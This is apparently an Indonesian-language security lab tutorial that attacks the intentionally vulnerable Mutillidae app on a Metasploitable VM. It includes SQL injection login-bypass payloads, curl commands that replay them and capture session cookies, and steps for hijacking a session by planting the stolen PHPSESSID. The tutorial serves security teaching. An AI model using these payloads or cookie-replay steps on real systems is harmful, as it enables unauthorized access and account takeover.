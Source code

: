 Lesson 6
--------
### Section 6: Open Console Terminal and Retrieve IP Address
- **Step 1**    : Buka Terminal Kali Linux
- **Step 2**    : Dapatkan IP address dari Kali Linux
    ```
    ifconfig
    ```
    - IP address yang didapatkan `10.151.64.195`
    - VM Kali Linux ini akan digunakan sebagai penyerang Metasploitable
    ![](/assets/lesson-6/ifconfig.png)

### Section 7: Start Web Browser Session to Mutillidae
- **Step 1**    : Buka Mozilla Firefox
- **Step 2**    : Buka Multilidae
    ![](/assets/lesson-6/open_multilidae.png)

### Section 8: Go To Login Page
- **Step 1**    : Klik Login/Register
    ![](/assets/lesson-6/click-login.png)

### Section 9: Configure Firefox Proxy Settings
- **Step 1**    : Buka Preference > Advanced > Network > Settings...
- **Step 2**    : Konfirgurasi Proxy
    - Klik **Manual Proxy Configuration**
    - Ketik `127.0.0.1` di kolom **HTTP Proxy**
    - Ketik `8080` di kolom **Port**
    - Check **Use this proxy server for all protocols**
    - Klik Ok
    - Klik Close
    ![](/assets/lesson-6/config-proxy.png)
    
### Section 10: Configure Burpsuite Settings
- **Step 1**    : Buka Burpsuite melalui Applications > Web Application Analysis > Burpsuite
    ![](/assets/lesson-6/VirtualBox_kali_19_12_2017_12_27_52.png)
- **Step 2**    : Pilih **Temporary project**, lalu **next**
    ![](/assets/lesson-6/temp_project.png)
- **Step 3**    : Pilih **Use Burp defaults**, lalu **Start Burp**
    ![](/assets/lesson-6/burp_config.png)
- **Step 4**    : Buka Proxy > Options, dan pastikan **Port** berupa 8080
    ![](/assets/lesson-6/burp_proxy.png)
- **Step 5**    : Buka Proxy > Intercept, ubah **Intercept is on** menjadi **Intercept is off**
    ![](/assets/lesson-6/proxy-intercept.png)
    
### Section 11: SQL Injection: By-Pass Password Without Username (Obtain Access #1)
- **Step 1**    : Buka Login/Register
- **Step 2**    : Ketik `' or 1=1-- ` di kolom **Name** dengan spasi di akhir `-- `
- **Step 3**    : Klik Login
    ![](/assets/lesson-5/login2.png)
- **Step 4**    : Anda akan berhasil login dengan akun Admin karena Admin berada pada urutan paling atas pada database. Dengan kondisi `1=1` maka akan menghasilkan kondisi yang selalu benar dan `-- ` berguna untuk comment pada SQL, karena itu query selanjutnya akan dibatalkan **(AND password='')**.
    ![](/assets/lesson-5/login2_berhasil.png)
    - Query yang dihasilkan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1-- ' AND password=''
    ```
    - Query yang sebenarnya dikerjakan:
    ```
    SELECT * FROM accounts WHERE username='' or 1=1
    ```
- **Step 5**    : Lihat data request **POST**
    - Klik Proxy Tab
    - Klik HTTP History
    - Klik baris yang berisi `/mutillidae/index.php?page=login.php`
    - Klik Request Tab
    _ Klik Raw Tab
    - Lihat **POST** Data String        
        ```
        username=%27+or+1%3D1--+&password=&login-php-submit-button=Login
        ```
        - `%27` adalah petik satu (')
        - `+` adalah spasi
        - `%3D` adalah sama dengan (=)
        ![](/assets/lesson-6/obtain_1.png)
        
### Section 12: Simulate CURL SQL Injection: (Obtain Access #1)
- **Step 1**    : Klik Logout
- **Step 2**    : Gunakan Curl untuk mekakukan login dengan **POST** data yang didapatkan dengan Burpsuite pada Section 11
    ```
    curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=%27+or+1%3D1--+&password=&login-php-submit-button=Login" --location "http://10.151.36.64/mutillidae/index.php?page=login.php" > login1.txt
    ```
    - menampilkan hasil "Logged In Admin"
        ```
        grep "Logged In" login1.txt
        ```
    - menampilkan **session cookies** beserta **PHP session ID** (PHPSESSID)
        ```
        cat crack_cookies.txt
        ```
    ![](/assets/lesson-6/obtain_1_curl.png)
    
### Section 13: SQL Injection: Single Quote Test On Password Field (Obtain Access #2)
- **Step 1**    : Buka Login/Register.
- **Step 2**    : Ketik `samurai` di kolom **Name**.
- **Step 3**    : Klik Kanan di kolom **Password**.
- **Step 4**    : Klik **Inspect Element**.
    ![](/assets/lesson-5/inspect-element-password.png)
- **Step 5**    : Ganti `password` dengan kata `text` pada elemen **type**. Ganti elemen maxlength menjadi `50` dan elemen size menjadi `50`
    ![](/assets/lesson-5/inspect-password-size.png)
- **Step 6**    : Ketik `' or (1=1 and username='samurai')-- ` di kolom **Password**. Jangan lupa memberikan spasi setelah `-- `
- **Step 7**    : Klik Login. Perhatikan kolom password sudah tidak lagi tersensor dengan bintang karena **type** sudah diganti menjadi `text`.
    ![](/assets/lesson-5/non-obfused-pass-2.png)
    - Anda akan berhasil login sebagai `samurai`
    ![](/assets/lesson-5/samurai-logged-in.png)
    - Query yang dihasilkan
    ```
    SELECT * FROM accounts WHERE username='samurai' AND password='' or (1=1 and username='samurai')-- '
    ```
- **Step 8**    : Lihat data request **POST**
    - Klik Proxy Tab
    - Klik HTTP History
    - Klik baris yang berisi `/mutillidae/index.php?page=login.php`
    - Klik Request Tab
    - Klik Raw Tab
    - Block semuta teks lalu klik kanan
    - Klik "Copy to File"
        ![](/assets/lesson-6/obtain_2.png)
    - Simpan sebagai `burp2.txt`
- **Step 9**    : Lihat Post Data
    - `grep -i cookie burp2.txt`
    - `grep -i username burp2.txt`
    ![](/assets/lesson-6/burp2-txt.png)
- **Step 10**    : Logout dan tutup Mozilla Firefox

### Section 14: Simulate cURL SQL Injection: (Obtain Access #2)
- **Step 1**    : Buka Terminal
- **Step 2**    : Hapus file crack_cookies.txt
    ```
    rm crack_cookies.txt
    ```
- **Step 3**    : Gunakan **POST** Data dari burp2.txt
    ```
    grep -i username burp2.txt
    ```
- **Step 4**    : Lakukan Autentikasi menggunakan Curl
    ```
    curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "username=samurai&password=%27+or+%281%3D1+and+username%3D%27samurai%27%29--+&login-php-submit-button=Login" --location "http://10.151.36.64/mutillidae/index.php?page=login.php" > login2.txt
    ```
    - Cek status Autentikasi
        ```
        grep "Logged In" login2.txt
        ```
    - menampilkan **session cookies** beserta **PHP session ID** (PHPSESSID)
        ```
        Cat crack_cookies.txt
        ```
    ![](/assets/lesson-6/curl-2.png)

### Section 15: Restore Firefox Original Proxy Configurations
- **Step 1**    : Buka Preference > Advanced > Network > Settings...
- **Step 2**    : Konfirgurasi Proxy
    - Klik **No Proxy**
    - Klik Ok
    - Klik Close
    ![](/assets/lesson-6/no-proxy.png)
    
### Section 16: Simulate Man-In-The-Middle Attack
- **Step 1**    : Install Cookies Manager+
    ![](/assets/lesson-6/install-cookies.png)
- **Step 2**    : Buka Cookies Manager+
    ![](/assets/lesson-6/open-cookies.png)
- **Step 3**    : Buka Cookies dari crack_cookies.txt
    ![](/assets/lesson-6/get-cookies.png)
- **Step 4**    : Edit PHPSESSID dari host `10.151.36.64`
    - Name: PHPSESSID
    - Content: 993789dd2451026982b1068764bcf2de (sesuaikan dengan **crack_cookies.txt**) 
    - Host: 10.151.36.64
    - Path: /
    - Save
    ![](/assets/lesson-6/phpsessid.png)
- **Step 5**    : Tambah entri cookies showhints
    - Click Add
    - Name: showhints
    - Content: 0 (sesuaikan dengan **crack_cookies.txt**)
    - Host: 10.151.36.64
    - Path: /mutillidae/  
    - Save
    ![](/assets/lesson-6/showhints.png)
- **Step 6**    : Tambah entri cookies username
    - Click Add
    - Name: username
    - Content: samurai (sesuaikan dengan **crack_cookies.txt**)
    - Host: 10.151.36.64
    - Path: /mutillidae/  
    - Save
    ![](/assets/lesson-6/username.png)
- **Step 7**    : Tambah entri cookies uid
    - Click Add
    - Name: uid
    - Content: 6 (sesuaikan dengan **crack_cookies.txt**)
    - Host: 10.151.36.64
    - Path: /mutillidae/  
    - Save
    ![](/assets/lesson-6/uid.png)
- **Step 8**    : Buka `http://10.151.36.64/mutillidae/index.php`, anda akan terlogin sebagai samurai
    ![](/assets/lesson-6/result.png)



    
    

    